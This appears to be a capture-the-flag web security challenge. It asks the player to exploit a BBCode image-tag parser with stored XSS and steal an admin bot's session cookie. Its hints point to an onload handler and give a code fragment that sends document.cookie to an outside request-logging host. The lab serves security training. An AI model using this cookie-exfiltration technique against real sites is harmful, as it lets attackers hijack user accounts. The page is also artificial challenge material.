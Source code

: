 # XSS/CSRF Challenge 2

----------------------

Hey friend,

I recently added profile signatures to user profiles (due to popular demand from my users). These signatures can be set under the Preferences page, and support BBCode.

I had a user recently complain to me that his account got hacked. Apparently the hacker found something in my BBCode parser he was able to exploit to do an XSS attack and steal this user's cookie, then login as him.

Can you see if you can duplicate that attack? I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game - to trigger it, just go to Trigger Admin Browser in the navigation. See if you can steal that account's cookies!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   BBCode allows you to embed an image like so: [img]http://url.com/image.jpg[/img]
   
   Play around with that.
</details>

<details> 
  <summary>Click for hint 2</summary>
   Try breaking the BBCode image tag by inserting other characters (besides the url) inside of it. Use chrome inspector or view-source on "My Profile" to see what your BBCode input looks like when it's translated into html.
</details>

<details> 
  <summary>Click for hint 3</summary>
   http://requestb.in/ is a neat site for testing webhooks. Cookie stealing is kind of like a webhook. If you were somehow able to get javascript execution, you could potentially change the SRC of the image to something like this:
   
   http://requestb.in/1fj9x6o1?c='+document.cookie
   
   And then review the cookie (passed as a GET parameter) on requestb.in!
</details>

<details> 
  <summary>Click for hint 4</summary>
   Did you know you can execute javascript when an image loads? It's simple! All you have to do is use the onLoad attribute, like so:
   
   &lt;img src="logo.png" onload="alert(1)"&gt;
</details>





